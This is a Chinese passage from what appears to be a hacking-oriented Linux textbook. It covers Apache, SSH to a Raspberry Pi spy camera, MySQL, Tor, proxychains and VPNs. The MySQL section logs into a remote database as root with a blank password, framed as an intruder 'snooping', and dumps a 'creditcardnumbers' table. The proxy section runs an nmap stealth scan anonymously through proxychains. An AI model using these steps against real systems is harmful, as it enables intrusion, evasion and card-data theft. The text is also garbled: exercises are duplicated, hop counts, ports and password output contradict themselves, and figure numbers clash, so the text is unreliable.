现在 Apache 已经在后台运行，它应该能够提供您的默认页面。在您喜爱的浏览器（Kali 自带 Firefox）中输入 `http://localhost` 来打开网页，该页面应该像图 12-1 所示。



图 12-1：`apache2` 服务器默认页面

如你所见，Apache 将“It works!” 作为其默认网页。现在你知道你的 `index.html` Web 服务器正在工作了，让我们来定制它吧！

## 编辑 index.html 文件

Apache 的默认网页位于 `/var/www/index.html`。你可以编辑 `index.html` 文件以提供你想要的任何信息，所以让我们创建一个自己的文件吧。为此，你可以使用任何你喜欢的文本编辑器；我将使用 `mouse-pad`。打开 `/var/www/index.html`，你应该能看到类似列表 12-1 的内容。

```html
<!DOCTYPE html PUBLIC "//W3C//DTD HTML 1.0 Transitional//EN"
"http://www.w3.org/TR/html1/DTD/html1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
  <title>Apache Default Page: It works</title>
  <style type="text/css" media="screen">
* {
  margin: 0px;
  padding: 0px;
}
body {
  padding: 3px 3px;
  background-color: #D8DBE2;
  font-family: Verdana, sans-serif;
  font-size: 11pt;
  text-align: center;
}
div.main_page {
  position: relative;
  display: table;
}
--snip--
```

列表 12-1：Apache 服务器 `index.html`

请注意，默认网页的文本与我们打开浏览器访问 `localhost` 时显示的文本完全相同，但是 HTML 格式。我们需要做的只是编辑或替换此文件，让我们的 Web 服务器显示我们想要的信息。

## 添加一些 HTML

现在我们的 Web 服务器已经运行，并且 `index.html` 文件已打开，我们可以添加任何想要让 Web 服务器提供的文本。我们将创建一些简单的 HTML 块。

让我们创建这个页面。在你的文本编辑器中一个新文件中，输入列表 12-2 所示的代码。

```html
<html>
<body>
<h1>Hackers-Arise Is The Best!</h1>
<p>If you want to learn hacking, Hackers-Arise.com </p>
<p>is the best place to learn hacking!</p>
</body>
</html>
```

列表 12-2：要添加到 `index.html` 文件中的一些简单 HTML

一旦你完全按照列表 12-2 所示输入了文本，将此文件保存为 `/var/www/html/index.html` 并关闭文本编辑器。你的文本编辑器会提示该文件已存在。没关系，直接覆盖 `/var/www/html/index.html` 文件即可。

## 查看结果

保存 `/var/www/html/index.html` 文件后，我们可以检查 Apache 将提供的内容。再次在浏览器中导航 `http://localhost`，你应该看到类似图 12-2 的内容。



## Hackers-Arise Is the Best!

如果你想学习黑客技术，Hackers-Arise.com 是学习的最佳场所！

图 12-2：新的 Hackers-Arise 网站

Apache 按照我们创建的方式提供了我们的网页！

## OpenSSH 与树莓派间谍 Pi

SSH 是 *Secure Shell*（安全外壳）的缩写，它基本上使我们能够安全地连接到远程系统的终端——这是几十年前常见的、不安全的 *telnet* 的替代品。当我们构建 Web 服务器时，SSH 允许我们创建*访问控制列表*（允许使用此服务的用户列表），使用加密密码对用户进行身份验证，并对所有通信进行加密。这减少了意外用户使用远程终端（由于加密而拦截我们的通信）的可能性。最广泛使用的 Linux SSH 服务是 OpenSSH，它安装在几乎所有的发行版中，包括 Kali。

系统管理员经常使用 SSH 管理远程系统，黑客也经常使用 SSH 连接到被入侵的远程系统，所以我们在这里也这样做。

从你的 Kali 系统通过 SSH 连接到远程 Raspberry Spy Pi，并输入以下内容，记得使用你自己的 Pi 的 IP 地址：

```
kali~ ssh pi@192.168.1.101
pi@192.168.1.101's password:
```

Debian GNU/Linux 系统自带的程序是自由软件；每个程序的确切分发条款在 `/usr/share/doc/*/copyright` 下的单独文件中说明。

Debian GNU/Linux 在适用法律允许范围内**绝对不提供任何保证**。
last login: Tues Jan 1 12:01:01 2025
pi@raspberry: $

随后 Spy Pi 将会提示你输入密码。在这种情况下，默认密码为 `raspberry`，除非你更改过它。

## 配置摄像头

接下来，我们需要配置摄像头。为了实现这一点，请输入以下命令启动树莓派配置工具：

```
sudo raspberrypi-config
```

这将启动一个图形化菜单，你可以在其中选择并启用摄像头。你需要重启系统，然后你的树莓派 Spy Pi 摄像头就会被启用并准备好进行侦视了！

## 开始侦视

一旦你的树莓派 Spy Pi 重启并且你已 Kali 终端通过 SSH 登录，你就可以通过拍照来开始侦视了。

> 旧版本的 Raspian 操作系统有一个名为 `raspberrypi` 的应用程序，本书的第一版涵盖了它，之后已被弃用。较新的 `rpicam-still` 应用支持 `raspberrypi` 提供的许多选项。

要拍照并保存为 JPEG 格式，请输入：

```
pi@raspberry: rpicam-still --output firstpicture.jpg
```


我们已经通过 SSH 在你的远程树莓派 Spy Pi 上拍摄了你的第一张照片，文件名为 `firstpicture.jpg`！

有关关于使用 RPi 摄像头软件工具的更多详情，请参阅：https://www.raspberry.com/documentation/computers/camera_software.html#rpicam-jpeg。
欢迎进一步探索这件多能武器。

## 从 MySQL/MariaDB 中提取信息

`MySQL` 是数据库驱动型 Web 应用程序最广泛使用的数据库。在现代 Web 技术时代，几乎每个网站都是由数据库驱动的，这意味着 `MySQL` 或另一个名为 `MariaDB` 的开源数据库存储了大多数网站的数据。

数据库是黑客的“金金羊毛”。它们包含了关于用户的关键信息以及如信用卡号等机密信息。出于这个原因，黑客通常针对数据库。

与 Linux 类似，`MySQL` 和 `MariaDB` 都是开源的并根据 `GPL`（GNU 公共许可证）授权，你会在几乎每个 Linux 发行版中找到预装的其中至少一个。

由于其免费、开源且强大的特性，`MySQL` 和 `MariaDB` 已成为许多 Web 应用的首选数据库，包括 `WordPress`、`Facebook`、`LinkedIn`、`X`（原 Twitter）、`Kayak`、`Walmart.com`、`Wikipedia` 和 `YouTube` 等热门网站。其他流行的内容管理系统（CMS）如 `Joomla`、`Drupal` 和 `Ruby on Rails` 也都使用 `MySQL`。你明白意思了。如果你想开发或攻击 Web 应用的后端，你应该了解一点 `MySQL`。

在接下来的章节中，我将假设你正在使用 `MySQL`，尽管这些命令对 `MariaDB` 或 `MySQL` 都有效；输出会略有不同。让我们开始吧。

## MySQL 的过去与未来

`MySQL` 最初于 1995 年由瑞典的 `MySQL AB` 开发，随后于 2008 年被 `Sun Microsystems` 收购，后者又于 2009 年被 `Oracle` 收购，因此 `MySQL` 现在归 `Oracle` 所有。`Oracle` 是全球最大的数据库软件发行商，因此开源社区对 `Oracle` 保持 `MySQL` 开源的承诺持有重大疑虑。结果是现在有一个名为“Maria”的 `MySQL` 数据库软件分支（fork），它致力于保持该软件及其后续版本的开源。作为一名 Linux 管理员或黑客，你应该关注 `MariaDB`。

## 启动 MySQL 或 MariaDB

幸运的是，Kali 已经安装了 `MySQL` 或 `MariaDB`（如果你使用的是其他发行版，可以从软件仓库或直接从 https://www.mysql.com/downloads/ 下载并安装 `MySQL`）。

要启动你的 `MySQL` 或 `MariaDB` 服务，请在终端中输入以下内容：

```
kali> systemctl start mysql
```

接下来，你需要通过登录来验证身份。输入以下内容，并在提示输入密码时直接按回车键即可：

```
kali sudo mysql -u root -p
```

```
Enter password:
Welcome to MariaDB monitor. Commands end with ; or \\
Your MariaDB connection id is 31
Server version: 11.4.4-MariaDB-3 Debian n/a
--snip---
Type 'help' or '\h' for help. Type '\c' to clear the current input statement
MariaDB([none]) >
```

在 `MySQL` 或 `MariaDB` 的默认配置中，root 用户的密码为空。显然，这是一个安全漏洞，你应该在第一次登录后通过添加密码来修复它。请注意，操作系统和 `MySQL` 的用户名和密码是分开且相互独立的。让我们现在更改 `MySQL` root 用户的密码以确保安全。

## 与 SQL 交互

`SQL` 是一种用于与数据库交互的解释型编程语言。数据库通常是关系型数据库，这意味着数据存储在多个相互作用表中，每个表在列或多个列中有值。
`SQL` 有多种实现方式，每种实现都有自己的命令和语法，但这里是一些常用命令：

- `select`: 获取数据
- `union`: 合并两个或多个查询的结果
- `insert`: 添加新数据
- `update`: 修改现有数据
- `delete`: 删除数据

你可以为每个命令提供条件来更具体地指定你想做什么。例如，该行
`select user, password from customers where user='admin';`
返回用户的值。

## 设置密码

从输出可以看出，root 账户没有密码。让我们分配一个密码。为了这样做，我们首先选择一个数据库。你系统上的 `MySQL` 会带有一些数据库。使用 `show databases;` 命令查看所有数据库：

```
mysql> show databases;
```

```
+--------------------++
| Database           |
+--------------------++
| information_schema |
| mysql               |
| performance_schema |
| sys                |
+--------------------++
4 rows in set (0.23 sec)
```

`MariaDB/MySQL` 默认带有四个数据库，其中（`information_schema` 和 `performance_schema`）是我们使用的管理数据库。我们将使用非管理数据库 `mysql`，它是为了你的目的而提供的。要使用 `mysql` 数据库，输入：

```
MariaDB([mysql]> use mysql;
```

```
Reading table information for completion of table and column name You can turn off this feature to get a quicker startup with -A
```

```
Database changed
```

该命令连接 `mysql`。现在，可以使用以下命令将 root 用户密码设置为 `hackers-aise`：

```
MariaDB([mysql]> set PASSWORD FOR 'root'@localhost = PASSWORD("hackers-aise");
```

该命令通过将用户的 root 密码设置为 `hackers-aise` 来更新用户。
要检查密码是否更改，我们可以再次运行之前的命令来检查账户密码：

```
mysql> select user, host, password from mysql.user;
```

```
+------------------------------------------------------+
| User        | Host      | Password                           |
+------------------------------------------------------+
| mariadb.sys | localhost | *FED2C7AF828E509C64D670F147E13922F6A8C4|
| root        | localhost | |
| mysql       | localhost | invalid |
+------------------------------------------------------+
3 rows in set (0.002 sec)
```

从输出可以看出，root 账户现在有密码了！注意密码经过了哈希处理（单向加密），因此只能看到密码的哈希值。

## 访问远程数据库

要访问本地上的 `MySQL` 数据库，我们使用以下语法：

```
kali> mysql -u <username> -p
```

如果没有提供主机名或 IP 地址，此命令将默认使用本地的 `MySQL` 实例。若要访问远程数据库，我们需要提供托管 `MySQL` 数据库的系统主机名或 IP 地址。这是一个示例：

```
kali> mysql -u root -p 192.168.1.101
```


这将连接我们到 `192.168.1.101` 的 MySQL 实例并提示我们输入密码。出于演示目的，我正在连接到本地局域网（LAN）上的 MySQL 实例。如果你的网络中有一个安装了 MySQL 的系统，请在此处使用其 IP 地址。我假设你已经跳过了密码并以 root 身份登录（你默认已经知道 mysql 数据库没有密码）。

这打开了 MySQL 命令行界面，为我们提供了 `mysql>` 提示符。除了这个命令行界面，MySQL 还有界面——原生的（MySQL Workbench）和第三方的（Navicat 和用于 MySQL 的 TOAD）。对于黑客来说，命令行界面可能是利用 MySQL 数据库的最佳机会，因此我们将重点关注这里。未经授权的数据库入侵者不太可能看到一个易于使用的 GUI。

> 请记住，所有命令必须以分号或 `\g` 结尾（与微软的 SQL Server 不同），我们可以通过输入 `help;` 或 `\` 来获取帮助。

现在我们已经以系统管理员身份登录，可以在数据库中进行导航。如果我们以普通用户身份登录，我们的导航将受到系统管理员为该用户提供的权限限制。

## 连接到数据库

访问系统后，我们想要四处窥探。下一步是找出是否有任何值得访问的数据库。以下是查找被访问系统上有哪些数据库的命令：

```
mysql> show databases;
```

| Database |
| :--- |
| information schema |
| mysql |
| creditcardnumbers |
| performance_schema |

4 rows in set (0.26)

哈哈！我们发现了一个名为 `creditcardnumbers` 的值得探索的数据库。让我们连接到它。

在 MySQL 中，与其他其它数据库管理系统中一样，我们可以通过输入 `use databasename;` 连接到我们感兴趣的数据库。

```
mysql> use creditcardnumbers;
Database changed
```

`Database changed` 的响应表示我们现在已连接到 `creditcardnumbers` 数据库。

当然，不而说，数据库管理员不太可能慷慨到将数据库命名为 `creditcardnumbers` 这样容易识别的名字，因此你可能需要进行一些探索来找到感兴趣的数据库。

## 探索数据库表

我们现在已连接到 `creditcardnumbers` 数据库，可以进行一些探索，看看它可能包含哪些信息。数据库中的数据组织成表，每个表可能包含一组不同的相关数据。我们可以通过输入以下命令查看此数据库中有哪些表：

```
mysql> show tables;
```

|------------------------------------------+
| Tables_in_creditcardnumbers |
|------------------------------------------+
| creditcardnumbers         |
|------------------------------------------+
1 row in set (0.14 sec)|

在这里我们可以看到此数据库中只有一个表，名为 `creditcardnumbers`。通常，数据库中会有很多表，因此你可能需要进行更多窥探。在这个示例数据库中，我们很幸可以将注意力集中在这张表上，以提取黑客的金金羊毛！

现在我们有一张需要检查的表，我们需要了解该表的结构。一旦我们知道了表的布局，就可以提取相关信息。

你可以使用 `describe` 语句查看表的结构，我们可以这样做：

```
mysql> describe creditcardnumbers;
```

| Field | Type | Null | Key | Default | Extra |
|-------|------|------|-----|---------|-------|
| customers | varchar(15) | YES | | | NULL |
| address | varchar(15) | YES | | | NULL |
| city | varchar(15) | YES | | | NULL |
| state | varchar(15) | YES | | | NULL |
| cc | int(12) | NO | | | 0 |

MySQL 返回了关于我们感兴趣的表结构的关键信息。我们可以看到每个字段的名称以及它存储的数据类型（通常是 `varchar` 类型或整数类型 `int`）。我们还可以看到它是否接受 NULL 值；如果存在任何键（键连接表）；以及字段可能具有的任何默认值；以及末尾的任何额外信息，如注释。

## 检查数据

要实际查看表中的数据，我们使用 `SELECT` 命令。`SELECT` 命令需要你了解以下信息：

- 存储你想查看的数据的表
- 该表中存储你想要查看的数据的列

我们按照以下格式布局：

```
SELECT columns FROM table;
```

作为一个查看所有列数据的方便快捷方法，我们可以使用星号 `*` 代替输入每个想要查看的列名。要查看 `cardnumbers` 表中所有数据的转储，我们输入：

```
mysql> SELECT * FROM cardnumbers;
```

| customers | address | city | state | cc |
|---|---|---|---|---|
| Jones | 1 Wall St | NY | NY | 12345678 |
| Sawyer | 12 Piccadilly | London | UK | 234567890 |
| Doe | 25 Front St | Los Angeles | CA | 4567898877 |

你可以看到，MySQL 已将 `cardnumbers` 表的所有信息显示在我们的屏幕上。我们找到了黑客的金羊毛！

## 总结

Linux 有许多在用户需要时后台运行的服务。Apache Web 服务器被广泛使用，但黑客也应该熟悉 MySQL 和 SSH 以执行各种任务。在本章中，我们涵盖了这些服务的绝对基础。一旦你熟悉了你的 Linux 系统，我敦促你去进一步探索这些服务。

## 练习

- 1. 通过命令行启动你的 `apache2` 服务。
- 2. 使用 `index.html` 文件创建一个简单的网站，宣布你进入了这个兴奋的黑客世界。
- 3. 通过命令行启动你的 `apache2` 服务。
- 4. 使用 `index.html` 文件创建一个简单的网站，宣布你进入了这个兴奋的黑客世界。

```bash
kali> traceroute google.com

traceroute to google.com (172.217.1.78), 30 hops max, 60 bytes packets

1 192.168.1.1 (192.168.1.1) 4.152 ms 3.834 ms 32.964 ms

2 10.0.0.1 (10.0.0.1) 5.797 ms 6.995 ms 7.679 ms

3 96.120.96.45 (96.120.96.45) 27.952 ms 30.377 ms 32.964 ms

-- ---

4 18gal15s44-in-f1.le100.net (172.217.1.78) 94.666 ms 42.990 ms 41.564 ms
```


如输出所示，`www.google.com` 跨越互联网经过了 18 跳跃。你的结果会有所不同，因为你的请求来自不同的位置，而且 Google 在全球范围内许多服务器。此外，数据包在互联网上的传输并不总是采取相同的路由，因此你可能会从你的地址向同一个站点发送另一个数据包，并收到不同的路由。让我们看看如何使用 Tor 网络来隐藏这一切。

# 洋葱路由器系统 (The Onion Router System)

20 世纪 90 年代，美国海军研究局（ONR）致力于开发一种用于间谍目的的匿名浏览互联网的方法。该计划是建立一个与互联网路由器独立的路由器网络，该网络可以对流量进行加密，并且仅存储上一个路由器的未加密 IP 地址——这意味着沿路径上的所有其他路由器地址都是被加密的。其想法是，任何监控流量的人都无法确定数据的来源或目的地。这项研究在 2002 年被称为“洋葱路由器（Tor）项目”，现在已可以用于在网上进行安全且匿名地浏览。

# Tor 的工作原理

通过 Tor 发送的数据包并不是通过某些人严密监控的普通路由器发送的，而是通过全球超过 7000 个路由器的网络发送的——这要归于允许 Tor 使用他们计算机的志愿者。在使用完全独立的路由器网络之外，Tor 还对每个数据包的数据、目的地和发送者 IP 地址进行加密。在每一个跳跃中，信息都会被加密，然后由接收它的跳转节点进行解密。通过这种方式，每个数据包只包含路径上上一个跳转的信息，而不包含源地 IP 地址。如果有人截获了流量，他们只能看到上一个跳转的 IP 地址，而网站所有者只能看到发送流量的最后一个路由器的 IP（见图 13-1）。这确保了互联网上的匿名性。



+ + Tor 节点
-> 加密路径
--> 明文路径

图 13-1：Tor 如何使用加密流量数据

要使用 Tor，只需从 `https://www.torproject.org` 安装 Tor 浏览器即可。安装后，它看起来像图 13-2 一样，你可以像使用任何旧版浏览器一样使用它。通过这种方式，你将通过一组独立的路由器浏览互联网，并能够在不被“老大哥”（Big Brother）追踪的情况下访问网站。遗憾的是，代价是 Tor 浏览器可能会慢；因为路由器并不多，该网络的带宽是有限的。


图 13-2：Tor 浏览器的落地页

除了访问传统互联网上的几乎任何网站外，Tor 浏览器还能够访问暗网（dark web）。构成暗网的网站需要匿名性，因此它们允许通过 Tor 浏览器访问，并且它们的顶级域名以 `.onion` 结尾。暗网因非法活动而闻名，但那里也有许多合法的服务。不过，需要提醒的是：访问暗网时，你可能会遇到许多人认为具有攻击性的材料。

140 第 13 章

对于未经过训练的人来说，在暗网上寻找资源可能是一项挑战。暗网上最优秀的搜索引擎之一是 Ahmia（图 13-3）。你可以在 `http://juhanurmihxlp77nkq6byazcdly2hmlfov2epul5ankdibsaot4cyd.onion` 找到它。


图 13-3：Ahmia 搜索引擎

# 安全担忧

美国和其他国家的情报和司法部门认为 Tor 网络是对国家安全的威胁，认为这种匿名网络使外国政府和恐怖分子能够在不被监控的情况下进行通信。因此，许多强大且雄心勃勃的研究项目正致力于破解 Tor 的匿名性。

Ahmia 的匿名性已被这些当局破解，并且很可能再次被破解。例如，美国国家安全局（NSA）运行着自己的 Tor 路由器，这意味着你的流量可能经过 NSA 的路由器，这更糟了，因为出口路由器总是知道你的目的地。NSA 还有一种被称为“流量分析”（traffic correlation）的方法，涉及寻找输入和输出流量中的模式，这种方法已经能够破解 Tor 的匿名性。这些破解 Tor 的尝试不会影响 Tor 在 Google 等商业服务面前隐藏你身份的效力，但可能会限制浏览器在防止你被间谍机构监控方面的性能。

# 代理服务器 (Proxy Servers)

在互联网上实现匿名性的另一种策略是使用代理，代理是作为流量中间人的中间系统：用户连接到代理，流量在传递之前会被赋予代理的 IP 地址（见图 13-4）。当目的地返回时，代理将流量发回给源地。通过这种方式，流量看起来来自代理而不是原始 IP 地址。



图 13-4：通过代理服务器运行流量

当然，代理可能会记录你的流量，但调查人员必须持有传票或搜查令（或黑入服务器），众所周知，NSA 以获取这些日志而闻名的。如果你想让你的流量更难被追踪，可以使用多个代理，这种策略被称为“代理链”（proxy chain），我们将在本章的稍后部分介绍它。

Kali Linux 有一个非常优秀的代理工具叫做 `proxchains`，你可以设置它来隐藏你的流量。`proxchains` 命令的语法非常直接，如下所示：

```bash
kali> proxchains <你想要代理的命令> <参数>
```

你提供的参数可能包括一个 IP 地址。例如，如果你想用 `proxchains` 通过 `nmap` 匿名扫描一个站点，你会输入以下内容：

```bash
kali> proxchains nmap -sS -Pn <IP address>
```

这将通过代理向给定的 IP 地址发送 `nmap -sS` 隐身扫描命令。该工具会自动构建代理链，所以你不需要担心它。

# 在配置文件中设置代理

在本节中，我们为 `proxchains` 命令设置一个使用的代理。对于 Linux/Unix 中的几乎每个应用程序，`proxchains` 的配置都是由配置文件管理的——具体的 `/etc/proxchains.conf`。使用以下命令用你的编辑器打开配置文件（根据需要将 `mousepad` 替换为你的编辑器）：

```bash
kali> mousepad /etc/proxchains.conf
```

你应该能看到一个类似于图 13-1所示的文件。

```bash
# proxychains.conf VER 4.x

# HTTP, SOCKS4a, SOCKS5 tunneling proxifier with DNS.
```

```bash
# 下方的选项标识了如何处理 ProxyList。

# 每次只能取消一个选项，

# 否则最后出现的选项将被采纳。

#
```

```bash
# dynamic_chain

# 动态链 - 通过代理链进行连接

# 按照它们在列表中的顺序排列

# 至少有一个代理在线即可跳转

# （死掉的代理会被跳过）

# 否则返回 EINTR。
```

```bash
# strict chain

# 严格链 - 通过代理链进行连接

# 按照它们在列表中的顺序排列

# 所有代理都必须在线才能跳转

# 否则返回 EINTR。
```

```bash
--snip--
```

# 图 13-1：proxychains.conf 文件

滚动到该文件的第 61 行，你应该看到 `ProxyList` 部分，如图 13-2 所示。

```bash
[ProxyList]

# 添加代理...

# 同时

# 默认设置为 "tor"

socks4 127.0.0.1 9050
```

# 图 13-2：用于添加代理的配置部分

## 免费代理列表

高级住宅代理 = 当普通代理不够用时

| IP:地址 | 国家 | 协议 | 匿名性 | 下行速度 | 上传速度 | 可靠性 | 运行时间 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 192.168.1.1 | 美国 | HTTP | 高 | 500 kb/s | 200 kb/s | 99% | 10d |
| 192.168.1.2 | 加拿 | HTTPS | 中 | 300 kb/s | 150 kb/s | 95% | 5d |
| 192.168.1.3 | 德国 | SOCKS5 | 低 | 100 kb/s | 50 kb/s | 80% | 2d |
| 192.168.1.4 | 英国 | HTTP | 高 | 450 kb/s | 180 kb/s | 98% | 7d |

图 13-5: 来自 `https://geonode.com/free-proxy-list` 的免费代理

在术语中填写详细信息，然后使用以下格式将一个结果代理添加到你的 `proxychains4.conf` 文件中：

类型 Ip地址 端口

这是一个示例：

```
[ProxyList]

# add proxy...

socks4 114.134.186.12 22020

# 同时

# 默认设为 "tor"
```


`socks4 127.0.0.1 9050`

需要注意的是，如果你不输入任何自己的代理，`proxychains` 将连接到 Tor。列表 13-2 中的最后一行告诉 `proxychains` 将流量首先发送到 `127.0.0.1` 端口 `9050` 上的主机（默认 Tor 配置）。如果你没有添加自己的代理并想使用 Tor，请将其保持原样。如果你不使用 Tor，则需要注释掉这一行（在前面添加一个 `#`）。

尽管我很喜欢 Tor，但正如提到的，它通常非常慢。因为 NSA 已经破解了 Tor，所以我对匿名性上不再那么依赖它，所以我注释掉了这一行，并添加了我自己的代理集。

让我们测试一下。在这个示例中，我将打开 Firefox 浏览器，并通过代理发送流量来匿名地访问 https://www.hackers-arise.com。

命令如下：

```
kali> proxychains firefox www.hackers-arise.com
```

这成功地通过我选择的代理在 Firefox 中打开了 https://www.hackers-arise.com 并返回了结果。对于任何追踪此操作的人来说，看起来是我的代理访问了 https://www.hackers-arise.com，而不是我的 IP 地址。

## 配置一些有趣的选项

现在 `proxychains` 已经在工作了，让我们看看其他可以通过 `proxychains4.conf` 配置的其他选项。正如我们所设置的那样，我们目前仅在使用单个代理。然而，我们可以引入多个代理并使用所有它们；我们可以使用列表中的有限数量；或者让 `proxychains` 随机更改顺序。让我们尝试所有这些选项。

### 添加更多代理

首先，让我们向列表中添加更多代理。回到网站 https://geonode.com/free-proxy-list 并找到更多代理 IP 地址。然后将这些代理中的几个添加到 `proxychains.conf` 文件中，如下所示：

```
[ProxyList]

# add proxy...

socks4 114.134.186.12 22020

socks4 188.187.190.59 8888

socks4 181.113.121.158 335551
```

现在保存此配置文件并尝试运行以下命令：

```
kali> proxychains firefox www.hackers-arise
```

> 你不会注意到任何区别，但你的数据包现在正在通过多个代理进行传输。

### 设置动态链

在我们的 `proxychains.conf` 文件中有多个 IP 的情况下，我们可以设置动态链，它会使我们的流量通过列表中的每个代理运行，如果其中一个代理宕机或没有响应，它会自动转到列表中的下一个代理，而不会抛出错误。如果我们没有设置这个，单个故障代理就会破坏我们的请求。

回到你的 `proxychains` 配置文件，找到 `dynamic_chain` 行（第 10 行）。取消它的注释，并确保注释掉 `strict chain` 行（如果它还没有注释的话）：

```
# dynamic_chain

#

# 动态 - 每个连接都将通过链代理完成

# 所有代理按照它们在列表中出现的顺序进行链接

# 至少必须有一个代理在线才能在链中运行

--snip--
```


这将启用我们代理的动态链，从而获得更高的匿名性和无忧的黑客操作。保存配置文件并尽管尝试一下。

## 使用随机链

我们的最后一个代理技巧是随机链选项，`proxychains` 将从我们的列表中随机选择一组 IP 地址并使用它们来创建我们的代理链。这意味着我们使用列表中的随机 IP 地址并使用它们来创建我们的代理链。这意味着当我们使用 `proxychains` 时，看起来就像是我的代理访问了 `https://www.hackers-arise.com`，而不是我的 IP 地址。

## 使用虚拟专用网络

使用虚拟专用网络 `VPN` 是保持你的网络流量相对匿名和安全的有效方法。`VPN` 用于连接到中间互联网设备，该设备将你的流量路由到最终目标，并标记上路由器的 IP 地址。

使用 `VPN` 确实可以增强你的安全性和隐私，但它不是匿名性的保证。

`VPN` 的优点在于它们简单且易于操作。你可以在 `VPN` 供应商处开设账户，并在每次登录计算机时无缝连接到 `VPN`。你像往常一样使用浏览器浏览，但对任何观察者来说，你的流量来自互联网 `VPN` 设备的 IP 地址和位置，而不是你的。此外，你与 `VPN` 设备之间的所有流量都是加密的，即使你的互联网服务提供商也看不到你的流量。

在其他方面，`VPN` 可以有效规避政府控制的内容和信息审查。例如，如果你的国家政府限制你访问带有特定政治信息的网站，你可能可以使用位于国外的 `VPN` 以便访问该内容。一些媒体公司（如 `Netflix`、`Hulu` 和 `HBO`）限制来自自本国 IP 地址的访问。使用位于这些服务允许的国家 `VPN` 可以绕过这些访问限制。

根据 `CNET` 的介绍，一些优秀且最流行的商业 `VPN` 服务如下：

- `ExpressVPN`
- `SurfShark`
- `NordVPN`
- `ProtonVPN`（我正在使用这项服务）
- `PIA`

这些 `VPN` 服务中大多数的费用在每年 50 美元到 100 美元之间，许多还提供 30 天免费试用。要了解更多关于如何设置 `VPN` 的信息，从列表中选择一个并访问其网站。你应该能找到非常易于操作的下载、安装和使用指南。

`VPN` 的优势在于，你的所有流量在离开电脑时都会被加密，从而保护你免受嗅探，并在你访问网站时保护你的 IP 地址。使用代理服务器时，`VPN` 所有者拥有你的原始 IP 地址（否则他们就无法将你的流量回传给你）。如果他们面临间谍机构或法律执法部门的压力，他们可能会交出你的身份。防止这种情况的一种方法是仅使用不存储或不记录你任何信息的 `VPN`（并希望它们是诚实的）。这样，如果有人坚持要求 `VPN` 服务商交出其用户的数据，那里根本没有数据可交。

## 加密邮件

免费商业电子邮件服务如 `Gmail`、`Yahoo!` 和 `Outlook Web Mail`（原 `Hot`）之所以免费是有原因的：它们是追踪你的喜好并投放广告的工具。正如前面提到的，如果一项服务是免费的，你就是产品，而不是客户。此外，邮件提供者的服务器（例如 `Google`）可以访问你邮件的未加密内容，即使你正在使用 `HTTPS`。

防止邮件被窃听的一种方法是使用加密邮件。图 13-6 显示的 `ProtonMail` 可以从端到端或从浏览器到浏览器对邮件进行加密。这意味着你的邮件在 `ProtonMail` 服务器上是加密的——即使是 `ProtonMail` 管理员也无法读取你的邮件。


`ProtonMail` 由瑞士欧洲核研究对加速机的一群年轻科学家创立的。瑞士人在保护秘密方面有着悠久而著名的历史（还记得你听过的那些瑞士银行账户吗？），`ProtonMail` 的服务器位于欧盟，该地区在个人数据共享方面的法律比美国严格得多。`ProtonMail` 不对基础账户收费，但提供低廉价格的高级账户。需要注意的是，在与非 `ProtonMail` 用户交换邮件时，存在部分或全部邮件未加密的可能性。请参阅 `ProtonMail` 支持知识库以获取完整细节。

## 总结

我们不断受到商业公司和国家情报机构的监视。为了确保你的数据和网络旅行安全，你需要实施本章中讨论的至少一种安全措施。通过结合使用这些措施，你可以减少在网络上的足迹，并让你的数据安全得多。

## 练习题

- 1. 运行 `traceroute www.hackers-arise.com`。你和你喜爱的网站之间出现了多少跳（hops）？
- 2. 下载并安装 `Tor` 浏览器。现在，像使用其他浏览器一样在网上匿名浏览，看看你是否注意到速度有差异。
- 3. 尝试使用 `proxychains` 配合 `Firefox` 浏览器访问你喜欢的网站。
- 4. 探索本章列出的供应商提供的商业 `VPN` 服务。选择一个并测试免费试用。
- 5. 打开一个免费的 `ProtonMail` 账户，向 `occupytheweb@protonmail.com` 发送一条安全的问候。

## 14

## 理解和检查无线网络


从你的系统扫描并连接到其他网络设备的能力是成为一名成功黑客的关键，随着 `Wi-Fi` (`IEEE 802.11`) 和蓝牙等无线技术成为标准，发现并控制 `Wi-Fi` 和蓝牙连接是关键所在。如果有人可以破解无线连接，他们就可以进入设备并访问机密。当然，第一步是学习如何寻找这些设备。

在第 3 章中，我们查看了 Linux 中的一些基础网络命令，包括无线网络的一些基础知识，并承诺在第 14 章介绍更多无线网络内容。正如承诺的那样，我们在这里检查 Linux 中两种最常见的无线技术：`Wi-Fi` 和蓝牙。

## Wi-Fi 网络

